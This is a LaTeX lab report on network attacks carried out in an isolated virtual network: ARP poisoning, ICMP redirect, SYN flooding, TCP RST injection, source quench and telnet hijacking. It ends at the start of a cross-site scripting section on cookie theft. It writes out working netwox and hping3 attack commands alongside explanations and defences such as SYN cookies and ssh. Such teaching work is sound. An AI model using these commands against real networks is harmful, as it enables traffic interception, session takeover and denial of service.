\section{Network Attacks}

% We may not need this paragraph to be as big as this. The setup is prescribed in the TCP IP lab document.

In each of these attacks, three virtual machines were placed on a virtual network with a virtual DHCP server. Each one
was assigned an IP address in the range 192.168.0.122-192.168.0.124 inclusive. Unless stated otherwise, whenever a
client or server is mentioned the server is running netcat at address 192.168.0.124 on port 4444, and the client is
attempting to connect to it from address 192.168.0.122. Specifically, the server runs {\tt nc -l 4444}, and the client
runs {\tt nc 192.168.0.124 4444}.

\subsection{ARP Poisoning and ICMP Redirection -- MitM Attacks}

Both of these attacks achieve roughly the same goal -- deceiving victims about the state of the network. The system's
ARP cache records information on which device holds what network address. Usually, when two devices want to communicate
to each other, an ARP request is broadcast to the entire network, and the relevant device responds with its MAC address.
This process can be subverted by continually sending fake responses, declaring false information about the mapping from
network addresses to hardware addresses. {\tt netwox 80 -e 08:00:27:10:42:0A -i 192.168.0.124} repeatedly sends a forged
ARP response, delcaring that address 192.168.0.0 belongs to device 08:00:27:10:42:0A. If 192.168.0.122 then attempts to
ping 192.168.0.0, it will send out an ARP request, find a response stating that the device exists, and then attempt to
send ping packets to it. However, in this network this address does not exist, so the packets will go nowhere and the
sender will hang. Occasionally the sender will send out another ARP request, suspecting that the state of the network
may have changed and that the packets should be routed to a different device, but it will quickly pick up one of the
fake responses and continue with its futile operation. This, however, creates a very noisy network. It is fairly easy to
spot someone sending a large number of unsolicited ARP responses and take appropriate action. Running {\tt arp -n} on
any machine on the network will show that address 192.168.0.0 exists, and that it belongs to 08:00:27:10:42:0A. When,
however, the attacker stops sending these forged ARP responses, the network will quickly return to normal, and packets
will be routed to the correct devices. An alternative example of software that performs these attacks is
EtterCap \ref{fig:etterarp}, which we used in addition to netwox.

\begin{figure}[h]
    \centering
    
\includegraphics[width=.5\linewidth]{images/ettercap.png} 
\includegraphics[width=.45\linewidth]{images/arp.png}
    \caption{Left: Ettercap is use. Right: Checking the ARP cache before and after} \label{fig:etterarp}
\end{figure}

Far more subtle is the ICMP Redirect attack. On a large network, where devices may not necessarily be directly connected
to each other, it is necessary to find routes through the network from host to host, via intermediate routers. In the
virtual network to which the virtual machines are connected, a direct route exists from each host to each other host. An
adversary listening on the network cannot pick up any traffic that is not intended for him.

\begin{figure}[h]
    \centering
    
\includegraphics[width=.7\linewidth]{images/icmp_redirect_before.png}
    \caption{We cannot sniff traffic when it is routed normally} \label{fig:icmp_before}
\end{figure}

When the state of a network changes, a redirect packet is broadcast, advising hosts of the new ``best" route to a
destination. These packets can, of course, be spoofed. The command {\tt netwox 86 -d eth6 -g 192.168.0.123} will cause
an adversary to listen for any network activity on the network that {\tt eth6} is connected to, and when some is
detected will send a redirect packet suggesting that the data should be routed through 192.168.0.123 instead. Options
also exist that allow an attacker to respond only to certain traffic. An adversary can advise the network that the best
route to any host is directly through him, allowing him to read any network traffic that is sent between hosts on the
network.

% Despite the configuration of the virtual network making this attack harder, we can see the ICMP redirect
% packets in a ping response between client and server. In the example shown, the `server' has advertised it is the best
% route to all hosts. When we ping it from the client, we can see these ICMP packets being returned at every step.
% \ref{fig:pingdirect}

% \begin{figure}[h]
%     \centering
%     
\includegraphics[width=.5\linewidth]{images/pingresp.png}
%     \caption{Seeing the ICMP redirects. One is highlighted.} \label{fig:pingdirect}
% \end{figure}

\begin{figure}[h]
    \centering
    
\includegraphics[width=.7\linewidth]{images/icmp_redirect_after.png}
    \caption{We can sniff traffic when it is all routed through us first} \label{fig:icmp_after}
\end{figure}

This allows an adversary to read anything that his targets attempt to send to each other, until the routing table is
updated again. Since the routing table is only updated when the route to the target host changes, the effects of such an
attack can persist for a very long time. Insecure protocols like Telnet can leak logon credentials in the plain, as well
as the contents of any files that a client reads.

\subsection{SYN Flooding}\label{sec_synflood}

In ordinary usage, to form a TCP connection a client sends a SYN packet to synchronise clocks with the server,
containing a sequence number, $S_c$, which can be any arbitrary value. The server responds with a SYN/ACK packet,
containing a sequence number $S_s$, and an acknowledgement number, $A_s = S_c+1$. The client then returns an ACK packet
to acknowledge this synchronisation containing an acknowledgement number $A_c = S_s+1$, and start the connection. If a
server wants to allow multiple connections, which servers usually do, it will need to store the state of multiple TCP
sessions in memory. If a server has too many active sessions, then it will be unable to accept any more, denying any
services it might offer to legitimate clients. This is called a SYN flood. Netwox tool 76 implements this attack. {\tt
netwox 76 -i 192.168.0.124 -p 4444} will repeatedly send SYN packets to port 4444 of host 192.168.0.124, with randomised
sender addresses. The server will respond to each of these connections with the requisite SYN/ACK, then store the state
of these connections in a buffer. With the SYN cookie disabled, when that buffer fills it'll simply discard the oldest
connection, ignoring any connections sent in whilst it discards. If a legitimate client then attempts to access the
server, it'll find that the server is too busy handling the malicious requests as in figure \ref{fig:flood_no_cookie},
and have its own request pushed off the end of the buffer. The server will forget about the client, and the client will
eventually give up on the connection, returning a timeout.

\begin{figure}[h]
    \centering 
\includegraphics[width=.7\linewidth]{images/syn_flood_during.png}
    \caption{Result of {\tt watch}ing the connection pool during a SYN flood attack with cookies disabled -- clients
    cannot reliably connect to the server in this state}
    \label{fig:flood_no_cookie}
\end{figure}

When the SYN cookie is enabled, however, connections can be established without a problem, as shown in figure
\ref{fig:flood_with_cookie}. A SYN cookie places restrictions on the valid ACK numbers that can be sent back to the
server by a client. When the server receives a SYN packet, rather than picking an arbitrary $S_s$, it picks an $S_s$
such that the first 5 bits are a slowly incrementing timestamp, $t$, the next 3 bits encode the maximum segment Size,
and the final 24 bits encode an easy to compute secure hash function of the client's address and port number, the
server's address and port number, and the value of the timestamp $t$. The server can then completely forget about this
connection. When the client responds with $A_c$, the server can recompute the preceding and compare it to $A_c-1$. If
they match, then the connection must have been started legitimately, and the server can respond to it. Since the
timestamp increases slowly -- once every 64 seconds is typical -- it is reasonable for the server to
assume that the client will have responded within the same time window. It is not infeasible for the server to also
compute all the necessary data for timestamp $t-1$, to cover the case where a connection straddles two windows.

\begin{figure}[h]
    \centering 
\includegraphics[width=.7\linewidth]{images/syn_flood_cookie.png}
    \caption{As in figure \ref{fig:flood_no_cookie}, but with cookies enabled -- the client has successfully connected to
    the server}
    \label{fig:flood_with_cookie}
\end{figure}

The use of a SYN cookie allows the server to store no information whatsoever about the state of partially completed
connections, so no resources are consumed by incomplete connections. As an aside, when the server was running Wireshark
as a background process, the cost of redrawing the GUI as rapidly as packets were being sent caused the system to
completely lock up. It is not impossible for a sufficiently low-power device running sufficiently misconfigured logging
software to be completely disabled by such an attack, even though the network stack itself will not hog resources.

% % As our alternative tool, we used {\tt hping3 -i u1 -S -p 80 192.168.0.124} to perform a SYN-FLOOD of the `server' on
% % port 4444. An section of the wireshark capture is also provided.\ref{fig:ws-rst}

% \begin{figure}[h]
%     \centering
%     
\includegraphics[width=.75\linewidth]{images/ws-rst-crop.png}
%     \caption{Wireshark capture, showing syn-ack exchanges without final 3rd ack}
%     \label{fig:ws-rst}
% \end{figure}

\subsection{TCP RST Attacks on telnet, ssh and ``video streaming"}

Each TCP packet contains an RST flag. RFC793\cite{rfc793} states that all hosts must process the RST field of every incoming packet
(p26), and that if such a packet is received with a valid sequence number, a host must close the connection (p37). Under
normal usage, it is usually used to show that a problem has occurred with one of the hosts. If one host crashes, then
the other would attempt to continue sending data to it fruitlessly. If, during crash recovery, one host responds to the
incoming data with an RST packet, the other will know to stop sending data and take appropriate action. This is also
used to help limit network activity, and shut down connections that are deemed to be malicious.

In the attack, netwox 78 listens for TCP activity on the network and, as soon as packets are sniffed, sends a forged TCP
RST to both endpoints. During a telnet or ssh session, this causes both hosts to hang up, believing something to have
happened to the other. The same outcome is observed during an ssh session. Attacking a video streaming application is
non-trivial on Ubuntu 9.04. Most video streaming websites rely on Adobe Flash. There are no easy to find legacy builds
of Adobe Flash available for such an old operating system, so instead a video streaming application was simulated using
netcat, fortune and cowsay; specifically with the BASH command {\tt while [ 1 ]; do fortune | cowsay -f dragon; done |
nc -l -p 4444}. An RST packet had the expected effect of terminating this connection for both the server and the client.

An alternative example is the {\tt tcpkill} program, part of the \emph{DSNIFF} suite of tools. Where inter-machine
traffic is visible to others, or has been intercepted via a MitM attack, you can put an embargo on tcp connections as
per the screenshot provided.\ref{fig:tcpkill}

\begin{figure}[h]
    \centering
    
\includegraphics[width=.5\linewidth]{images/tcpkill.png}
    \caption{tcpkill being used to choke connections to the server}
    \label{fig:tcpkill}
\end{figure}

\subsection{Source Quenching and Blind Reset}

A source quench packet is used when a host is receiving too much traffic, and requests that other hosts slow down their
transmissions. RFC762\cite{rfc0762} defines them, stating that a host \emph{should} slow down their transmission rate, sent by either
a router or a host whose buffer is currently overloaded. RFC1812\cite{rfc1812} (1995) deprecates their sending, and RFC6633\cite{rfc6633} (2012)
deprecates any application's reactions to a source quench packet. Ubuntu 9.04 was released in 2009, so the use of SQ
packets was long since deprecated, and reacting to one is optional. Similarly, RFC1122\cite{rfc1122} states that a host \emph{should}
abort a connection upon receipt of a hard error packet. This also means that such a reaction is optional. ICMP errors
exist at the internet layer, not the transport layer, and so these error messages are handled by the OS and its
hardware, not the application. If the attacks were effective, we would expect to see an SQ attack cause a reduction in
bandwidth across the link, and the blind reset attacks immediately abort connections, similarly to the TCP RST attacks.
Neither of these effects were observed, figure \ref{fig:ftp_sq} shows one such attempt, so we suspect that the hosts
chose not to react to these error packets.

\begin{figure}[h]
    \centering
    
\includegraphics[width=.5\linewidth]{images/ftp_vs_sq.png}
    \caption{Transferring a 1 GiB file to a host via ftp, both with and without source quench packets being sent. Both
    transfers took the same time to complete. Other screenshots of telnet, scp, nc, etc under this attack were similarly
    uninteresting.}
    \label{fig:ftp_sq}
\end{figure}

\subsection{TCP Hijacking}

telnet does not encrypt its communications, and is completely vulnerable to a myriad of attacks. Session hijacking
intercepts telnet traffic, then sends packets with a spoofed source IP, a valid sequence number (as described in \S
\ref{sec_synflood}), and standard telnet traffic. The server cannot tell the difference between this traffic and traffic
legitimately sent by the client. This allows an attacker to take control of a telnet session and execute arbitrary
commands.

Though this is theoretically possible using netwox, hand-crafting each individual packet to contain the correct sequence
number and valid commands, this is very difficult. Tools exist to automate this process, and we downloaded and installed
hunt onto our attacker's machine to make this easier for ourselves. Hunt needs to scan the network in advance to find
telnet hosts, then can list active telnet connections when they start. When requested, hunt can intercept the session,
passing control over to the attacker as though he had connected originally. This quickly causes the legitimate client's
sequence numbers to go out of sync, meaning that any traffic sent by him is rejected by the server, and any traffic sent
by the server is rejected by the legitimate client. This includes the standard logout message. The client will hang and,
unless he knows the symptoms of such an attack, will just think that the server has crashed. An aware server could
probably detect the two incoming streams of telnet traffic, and possibly be able to send out an RST packet to abort the
connection, but a better solution is to use a secure remote shell, like ssh, which does not fall victim to this kind of
attack.

\section{Cross-site Scripting}

The setup for this section is basically identical to what is given in the spec. The first two sections, displaying an
irritating alert and displaying an alert that shows the user's cookie, were both fairly simple. The attack gets
interesting at the third section.

\subsection{Stealing Cookies and Impersonating Users}

